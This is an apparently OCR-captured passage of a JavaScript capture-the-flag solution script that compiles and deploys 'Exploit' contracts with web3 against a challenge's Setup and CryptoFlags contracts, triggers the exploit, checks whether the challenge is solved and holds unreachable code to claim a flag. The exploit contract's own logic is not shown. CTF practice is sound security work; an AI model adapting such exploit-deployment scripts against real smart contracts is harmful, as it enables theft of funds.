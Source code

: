 ```js
    ),
    settings: {
      outputSelection: {
        '*': {
          '*': ['*'],
        },
      },
    },
  };
  const compiled = JSON.parse(solc.compile(JSON.stringify(input)));
  const { evm: { bytecode: { object: exploitImplBytecode } }, abi: exploitImplAbi } = compiled.contracts["Exploit.sol"]["ExploitImpl"];
  const { evm: { bytecode: { object: exploitBytecode } }, abi: exploitAbi } = compiled.contracts["Exploit.sol"]["Exploit"];

  const exploitImpl = new web3.eth.Contract(exploitImplAbi);
  const exploit = new web3.eth.Contract(exploitAbi);

  const { options: { address: exploitImplAddress } } = await exploitImpl.deploy({
    data: "0x" + exploitImplBytecode
  }).send({
    from: account.address,
  });
  console.log(`deployed exploit impl at ${exploitImplAddress}`);

  const setup = new web3.eth.Contract(compiled.contracts["Setup.sol"]["Setup"].abi, SETUP);
  const flags = new web3.eth.Contract(compiled.contracts["CryptoFlags.sol"]["CryptoFlags"].abi, await setup.methods.cryptoFlags().call());

  const { options: { address: exploitAddress } } = await exploit.deploy({
    data: "0x" + exploitBytecode,
    arguments: [flags.options.address]
  }).send({
    from: account.address,
  });
  console.log(`deployed exploit at ${exploitAddress}`);

  async function sendMethod(target, method) {
    const tx = {
      from: account.address,
      to: target.options.address,
      gas: 9999999,
      gasPrice: await web3.eth.getGasPrice(),
      data: method.encodeABI()
    };
    const signed = await web3.eth.accounts.signTransaction(tx, PRIVATE_KEY);
    await web3.eth.sendSignedTransaction(signed.rawTransaction);
  }

  const deployedExploit = new web3.eth.Contract(compiled.contracts["Exploit.sol"]["Exploit"].abi, exploitAddress);

  await sendMethod(deployedExploit, deployedExploit.methods.exploit(exploitImplAddress));
  console.log(await setup.methods.isSolved().call());

  return;

  const FLAG_ID = 56488061;

  await sendMethod(flags, flags.methods.claimFlag(FLAG_ID));
  console.log("claimed flag");

  const slot = "\x00".repeat(32);
```
